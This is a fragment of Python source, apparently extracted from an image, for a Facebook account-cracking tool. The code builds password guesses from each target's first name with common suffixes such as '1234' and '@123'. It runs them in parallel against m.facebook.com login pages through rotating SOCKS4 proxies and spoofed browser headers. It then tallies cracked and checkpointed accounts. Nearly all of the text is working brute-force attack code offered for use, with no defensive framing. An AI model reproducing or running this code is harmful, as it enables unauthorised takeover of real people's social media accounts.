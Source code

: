                     pwv.append(frs+'1234')
                    pwv.append(frs+'@1234')
                    pwv.append(frs+'123456')
                    pwv.append(nmf)
                    pwv.append('57273200')
                    pwv.append(frs+'@123')
                    pwv.append(frs+'@')
                    pwv.append(frs+'@@')
                    pwv.append(frs+'@#')
                    pwv.append(frs+'1122')
                    pwv.append(frs+'11')
                    pwv.append(frs+'#11')
                    pwv.append(frs+'@1122')
                    pwv.append(frs+'@11')
                    pwv.append(frs+'@22')
                    pwv.append(frs+'##')
            if 'ya' in pwpluss:
                for xpwd in pwnya:
                    pwv.append(xpwd)
            else:pass
            if 'mobile' in method:
                pool.submit(crack,idf,pwv)
            elif 'free' in method:
                pool.submit(crackfree,idf,pwv)
            elif 'touch' in method:
                pool.submit(crackfree,idf,pwv)
            elif 'mbasic' in method:
                pool.submit(crackfree,idf,pwv)
            else:
                pool.submit(crackfree,idf,pwv)
    print('\n\033[1;37m===================================')
    print('\033[97;1m[\033[93;1m+\033[97;1m] CLONING COMPLETE TIME :\033[1;93m'+time.strftime("%H:%M")+" "+ tag)
    print('\033[97;1m[\033[93;1m•\033[97;1m] OK :\033[0;93m %s '%(OK))
    print('\033[97;1m[\033[93;1m+\033[97;1m] CP :\033[0;93m %s '%(CP))
    print('\n\033[1;37m===================================')
    woi = input('\033[97;1m[\033[93;1m+\033[97;1m] \033[1;37m ENTER TO BACK')
    os.system("python MHS-6-3.py")
    exit()
 
#--------------------[ METODE-B-API ]-----------------#
 
def crack(idf,pwv):
    global loop,ok,CP
    bo = random.choice([m,k,h,b,u,x])
    sys.stdout.write(f"\r\033[100;93m{bo}[MHS-ON]-{P}[{H}{loop}{P}]-[{H}{len(id)}{P}]-[{H}OK{bo}-{H}{ok}{P}]-[{P}{'{:.0%}'.format(loop/float(len(id)))}{P}]\033[0;37m "),
    sys.stdout.flush()
    ua = random.choice(ugen)
    ua2 = random.choice(ugen2)
    ses = requests.Session()
    for pw in pwv:
        try:
            nip=random.choice(prox)
            proxs= {'http': 'socks4://'+nip}
            ses.headers.update({"Host":'m.facebook.com',"upgrade-insecure-requests":"1","user-agent":ua2,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","dnt":"1","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://m.facebook.com/","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"})
            p = ses.get('https://m.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&_rdr')